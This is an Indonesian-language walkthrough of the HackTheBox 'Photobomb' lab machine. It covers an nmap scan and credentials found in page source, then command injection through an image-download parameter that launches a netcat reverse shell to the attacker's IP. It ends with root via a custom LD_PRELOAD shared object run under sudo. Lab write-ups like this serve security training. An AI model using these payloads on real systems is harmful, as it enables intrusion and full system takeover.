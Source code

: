```yaml
---
title: "HackTheBox - Photobomb Writeups"
date: 2022-12-13 18:00:00 +07:00
categories: [WriteUps]
tags: [ctf, hackthebox, pentest, writeups]
image: 
---
```


# HackTheBox Photobomb Writeups

Scanning dengan Nmap dan mendapatkan 2 Port terbuka, Port SSH dan Port Http. Dan port 80 mengarah pada photobomb.htb jangan lupa untuk mengubah /etc/hosts dan menambahkan photobomb.htb

```
┌──(root㉿yupy)-[~/yp/hackthebox/Photobomb]
└─# nmap -sC -sV 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 17:48 PST
Nmap scan report for 10.10.11.182
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.29 seconds
```

Kita melihat pada source code html yang mengarah pada photobomb.htb/photobomb.js parameter photobomb.js kita mendapatkan User dan Password “pH0t0:b0Mb!"
```
http://pH0t0:b0Mb!@photobomb.htb/printer
```
![image](https://media.discordapp.net/attachments/740245586095112242/1054662190671605781/image.png)

Kita juga dapat melihat directory yang ada dengan dirsearch /printer yang mengarah ke /printer tetapi itu kita harus memasukan User dan Password, dan disini kita sudah mendapatkanya pada source code url: 
```
http://pH0t0:b0Mb!@photobomb.htb/printer
```
![image](https://media.discordapp.net/attachments/740245586095112242/1054662732709888010/image.png)

Disini kita bila menginputkan url diatas kita akan masuk pada tampilan photo atau galeri. Pada url photobomb.htb/printer setelah kita menginputkan User dan Password yang telah didapat dari source code tadi.
![image](https://media.discordapp.net/attachments/740245586095112242/1054663023530356766/image.png)

Selanjutnya bila kita request dengan burp suite pada menu Download gambar, akan mendapatkan Post Request yang bisa kita exploitasikan. yang kemungkinan ini vulnerability SSRF (Server Side Request Forgery) yang bisa kita exploitasikan dengan menginputkan url yang kita inginkan, dan RCE (Remote Code Execution) yang akan kita gunakan untuk mendapatkan reverse shell.
![image](https://media.discordapp.net/attachments/740245586095112242/1054663349499080814/image.png)

Disini kita dapat meexploitasikan pada parameter 
```
filetype:jpg
``` 
dan menambahkan “;” untuk trigger backconnect ke server. Kita disini dapat menambahkan reverse shell dengan membuat reverse shell pada revshell.com. payload yang kita gunakan 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.16 1337 >/tmp/f
```
dengan kita encode url menjadi 
```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.16%201337%20%3E%2Ftmp%2Ff
```

![image](https://media.discordapp.net/attachments/740245586095112242/1054664402240012378/image.png)

Setelah kita send request kita dapat backconnect dengan pc kita sendiri dan kita mencoba mencari lebih dalam pada server dan biasanya kita mengecek local privileges nya pada sudoers apakah kita dapat menaikan user biasa ke user root dengan melihat sudoers.

![image](https://media.discordapp.net/attachments/740245586095112242/1054664555877380176/image.png)

Disini sudoers dapat masuk dengan /opt/cleanup.sh secara langsung. Dan kita mencoba membaca dan mencari  file /opt/cleanup.sh kerentanan apa yang terdapat pada file tersebut.

![image](https://media.discordapp.net/attachments/740245586095112242/1054664805820149760/image.png)

![image](https://media.discordapp.net/attachments/740245586095112242/1054664963819581490/image.png)

Selanjutnya kita mencoba exploitasikan ```/opt/cleanup.sh``` dengan cara yang saya dapatkan dari [artikel](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/). Disini kita mencoba upload ```shell.so``` yang telah kita compile dan kita upload ke dalam server target.
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
![image](https://media.discordapp.net/attachments/740245586095112242/1054665393941266452/image.png)

Setelah berhasil ke upload pada server target kita gunakan shell.so untuk local privileges. Dengan payload ini kita dapat menaikan user biasa ke root. 
```
sudo LD_PRELOAD=./shell.so /opt/cleanup.sh
```
![image](https://media.discordapp.net/attachments/740245586095112242/1054665794287579206/image.png)

![image](https://media.discordapp.net/attachments/740245586095112242/1054665911157669898/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1054666533386858526/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1054666701435830282/image.png?width=659&height=606)
